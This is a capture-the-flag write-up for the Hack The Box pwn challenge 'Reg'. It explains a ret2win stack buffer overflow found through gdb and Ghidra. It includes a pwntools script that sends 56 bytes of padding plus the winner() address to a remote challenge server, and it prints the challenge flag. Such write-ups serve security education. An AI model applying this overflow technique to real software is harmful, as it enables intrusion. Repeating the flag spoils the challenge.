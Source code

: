 # Reg
> Write-up author: jon-brandy
## DESCRIPTION:
This is a basic buffer flow exploit. Try to get the flag.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.
2. Next, check the file type we got.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469022-868db7be-e8d4-4678-a528-9f0bd0b2a919.png)


3. It's a 64 bit binary file, dynamically linked and **not stripped**. Since it's not stripped, hence it's easier for us debug or identify the function.
4. Now, check the binary's protection.

> RESULT 

```
No canary Found (means we can do bufferoverflow concept).
No PIE (means a binary and all of it's dependencies are loaded not in random locations within virtual memory each time the application executed).
Partial RELRO (some sections of the binary are read only, preventing them from being modified).
```

![image](https://user-images.githubusercontent.com/70703371/209469053-3655c77c-d080-476a-97e9-3b6bbe2ff4b4.png)


5. Now run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469202-3e2f98a8-6865-4bcf-95b2-6b3bfc7e5907.png)


6. Let's enter 1024 cyclic pattern.

> RESULT - GOT SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209469249-07d78d45-4722-47cf-a3bc-ba148c4871d3.png)


7. To find the correct bytes to overflow the buffer, copy all the RSP characters.
8. Then run this command -> `cyclic -l haaaaaaa`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209470737-928138e2-e96a-4c8f-8992-b8f2f0240da8.png)


9. 48 Bytes.
10. Let's decompile the file with ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469351-4d3d9e29-06ec-4204-9fdd-75d9879d3b34.png)


11. Check the `run()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469676-7f32d029-9e29-4992-8d04-595a7ccf0221.png)


12. Based from the decompiled binary we got, the vuln is at the `gets()` function.
13. Notice there's a function named `winner()`.

![image](https://user-images.githubusercontent.com/70703371/209469428-a99621bc-4522-4f3c-9b18-65a419ea11c4.png)


![image](https://user-images.githubusercontent.com/70703371/209469656-afe9be66-2a62-46f1-a886-c0ad14f48bf7.png)



14. The concept here is ret2win, we can control the return address to the `winner()` function by overflow the buffer.
15. Now get the `winner()` address.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469477-2d32a529-e4c5-4779-89d1-5c81ea270f00.png)


16. Convert that to decimal.
17. Here's our script so far.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('206.189.28.76',30687)
p = b'A' * 48
winAddr = 4198918 #0x401206
p += p64(winAddr)
sh.sendlineafter(b': ', p)
sh.interactive()
```

18. When i ran the script, i didn't get the flag, i think the padding bytes is incorrect.
19. When i add another 4 bytes, it's still, but when i add more 4 bytes (total 8 bytes added).
20. I got the flag.

> THE CORRECT PADDING BYTES - 56

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('206.189.28.76',30687)
p = b'A' * 56
winAddr = 4198918 #0x401206
p += p64(winAddr)
sh.sendlineafter(b': ', p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209469851-78320b70-54f0-4fe9-aedc-0ba8b378f3c5.png)


21. Got the flag!

## FLAG

```
HTB{N3W_70_pWn}
```
